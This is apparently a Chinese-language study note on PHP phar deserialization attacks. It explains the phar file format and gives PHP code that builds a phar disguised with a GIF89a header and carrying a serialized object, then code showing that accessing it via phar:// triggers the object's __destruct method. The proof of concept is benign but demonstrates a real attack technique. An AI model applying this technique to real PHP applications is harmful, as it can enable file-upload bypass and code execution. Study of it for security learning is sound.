- ## Phar
  
  phar 类似于压缩包，但除了文件之外，phar 还包含一个被序列化的对象。
  
  当我们用`phar://phar.gif/test.txt`访问 phar 文件`phar.gif`内的文件时，插入其中的对象会被反序列化，并会在之后被销毁（也就是会执行`__destruct()`）。
#### .phar 文件格式

1. `phar`文件头的识别格式是`xxx` + `<?php __HALT_COMPILER(); ?>`，只有这样的格式才能被识别为`phar`文件
2. `phar`是压缩文件，那么压缩文件的信息就会存在第二段**manifest describing**，这一段是放序列化的`poc`
3. 压缩的文件的内容被存在第三段，也就是上面 payload 的中的`text.txt`
4. 数字签名为该`phar`的第四段
- ### 生成 Phar 文件
  
  ```php
  <?php
  //反序列化payload构造
  class TestObject {
  }
  $o = new TestObject();
  $o->data='just a test';
  //打开phar文件
  @unlink("phar.phar");
  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
  $phar->startBuffering();
  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
  
  //放入对象
  $phar->setMetadata($o);
  
  //添加压缩的文件（test为其中的内容）
  $phar->addFromString("test.txt", "test");
  $phar->stopBuffering();
  ?>
  ```
- ### 利用 Phar 文件
  
  ```php
  <?php
  	class TestObject{
  function __destruct(){
  	echo $this->data;
  }
  	}
  
  	include "phar://phar.phar/test.txt";
  ?>
  ```
  
  访问`phar://phar.phar`也可以利用
- ### 其他
  
  https://www.php.net/manual/en/phar.using.intro.php
  
  phar 文件中可以塞 PHP 命令